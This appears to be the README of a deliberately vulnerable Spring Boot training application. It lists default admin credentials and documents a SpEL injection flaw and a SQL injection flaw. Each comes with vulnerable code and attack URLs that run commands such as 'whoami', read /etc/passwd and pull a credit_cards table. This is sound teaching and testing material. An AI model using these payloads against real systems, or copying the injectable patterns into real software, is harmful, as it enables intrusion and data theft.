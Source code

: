 # Spring Vulnerable Application

## Overview
A deliberately vulnerable Spring Boot application demonstrating common security issues in Java Spring applications, including Spring-specific vulnerabilities and misconfigurations.

## Quick Start

**Access URL**: http://localhost:8084

**API Documentation**: http://localhost:8084/swagger-ui.html

**Actuator Endpoints**: http://localhost:8084/actuator

**Default Credentials**:
- Admin: `admin` / `admin123`
- User: `user` / `password`

## Application Features

- RESTful API endpoints
- User authentication (JWT)
- Database operations
- File upload/download
- Admin dashboard
- Actuator endpoints exposed
- H2 console enabled

## Vulnerabilities

### 1. Spring Expression Language (SpEL) Injection
```java
// Vulnerable code
@RequestMapping("/calc")
public String calculate(@RequestParam String expression) {
    ExpressionParser parser = new SpelExpressionParser();
    return parser.parseExpression(expression).getValue().toString();
}

// Attack
http://localhost:8084/calc?expression=T(java.lang.Runtime).getRuntime().exec('whoami')
http://localhost:8084/calc?expression=new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd').getInputStream()).next()
```

### 2. SQL Injection
```java
// Vulnerable repository
@Query("SELECT u FROM User u WHERE u.username = '" + username + "'")
User findByUsername(String username);

// Attack
http://localhost:8084/users?username=' OR '1'='1
http://localhost:8084/users?username=' UNION SELECT * FROM credit_cards--
```
